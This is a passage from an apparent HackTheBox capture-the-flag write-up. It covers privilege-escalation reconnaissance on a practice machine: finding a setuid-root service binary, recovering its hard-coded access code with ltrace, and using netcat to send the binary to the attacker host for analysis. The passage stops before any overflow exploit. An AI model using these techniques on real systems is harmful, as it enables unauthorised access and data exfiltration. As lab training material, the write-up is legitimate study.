-rw-r--r-- 1 root root 154 Sep  9  2017 /etc/xinetd.d/lcars


www-data@enterprise:/tmp$ cat /etc/xinetd.d/lcars
cat /etc/xinetd.d/lcars
service lcars
{
    type = UNLISTED
    protocol = tcp
    socket_type = stream
    port = 32812
    wait = no
    server = /bin/lcars
    user = root

}


www-data@enterprise:/tmp$ ls -al /bin/lcars
ls -al /bin/lcars
-rwsr-xr-x 1 root root 12152 Sep  8  2017 /bin/lcars
```

Given this, let's run `lcars`.

```bash
www-data@enterprise:/tmp$ lcars
lcars

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System

Enter Bridge Access Code: 
```

### Get Access Code

It's the same binary as we saw in port 32812.
I'll run the binary again but with `ltrace` command.
Then, I'll put random text for the "Access code".

```bash
www-data@enterprise:/tmp$ ltrace lcars
ltrace lcars
__libc_start_main(0x56555c91, 1, 0xffffdd34, 0x56555d30 <unfinished ...>
setresuid(0, 0, 0, 0x56555ca8)                   = 0xffffffff
puts(""
)                                         = 1
puts("                 _______ _______"...                 _______ _______  ______ _______
)      = 49
puts("          |      |       |_____|"...          |      |       |_____| |_____/ |______
)      = 49
puts("          |_____ |_____  |     |"...          |_____ |_____  |     | |    \_ ______|
)      = 49
puts(""
)                                         = 1
puts("Welcome to the Library Computer "...Welcome to the Library Computer Access and Retrieval System

)      = 61
puts("Enter Bridge Access Code: "Enter Bridge Access Code: 
)               = 27
fflush(0xf7fc7d60)                               = 0
fgets(bokchee
bokchee
"bokchee\n", 9, 0xf7fc75a0)                = 0xffffdc77
strcmp("bokchee\n", "picarda1")                  = -1
puts("\nInvalid Code\nTerminating Consol"...
Invalid Code
Terminating Console

)    = 35
fflush(0xf7fc7d60)                               = 0
exit(0 <no return ...>
+++ exited (status 0) +++
```

I can see the command line `strcmp("bokchee\n", "picarda1")`, so that I can figure out the access code : `picarda1`

Let's try this again.

```bash
www-data@enterprise:/tmp$ lcars
lcars

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System

Enter Bridge Access Code: 
picarda1
picarda1

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System


LCARS Bridge Secondary Controls -- Main Menu: 

1. Navigation
2. Ships Log
3. Science
4. Security
5. StellaCartography
6. Engineering
7. Exit
Waiting for input: 
```

The access code was correct, and I can now see the console.
Since there are many options on the main menu and have no idea how to use it, let's bring this binary and analyze it with ghidra.

```bash
(kali)
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9001 > lcars.elf
listening on [any] 9001 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.61] 59518


(target)
www-data@enterprise:/tmp$ nc 10.10.14.4 9001 < /bin/lcars


(kali)
┌──(kali㉿kali)-[~/htb]
└─$ md5sum lcars.elf       
cf72dd251d6fee25e638e9b8be1f8dd3  lcars.elf


(target)
www-data@enterprise:/tmp$ md5sum /bin/lcars
md5sum /bin/lcars
cf72dd251d6fee25e638e9b8be1f8dd3  /bin/lcars
```

> Let's stop here since it has to do with buffer overflow.
> Visit it later...


